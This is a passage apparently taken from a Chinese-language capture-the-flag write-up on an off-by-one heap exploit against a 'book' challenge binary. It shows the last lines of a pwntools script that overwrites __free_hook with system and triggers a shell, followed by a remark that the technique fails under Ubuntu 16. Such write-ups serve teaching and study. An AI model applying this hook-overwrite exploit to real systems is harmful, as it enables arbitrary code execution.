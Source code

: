 ```python
'''

# overwrite free_hook
# set chunk2_desc 2 free_hook
editbook(1,p64(free_hook))
# overwrite free_hook 2 system
editbook(2,p64(system))

deletebook(2)

p.interactive()
```

##### 在Ubuntu16下出现情况

book1 结构体覆盖后指向的地址非常低，指向的地址变成是在一个莫名其妙的 chunk 里面无法实现伪造。

![off-by-one-4](img\off-by-one-4.png)
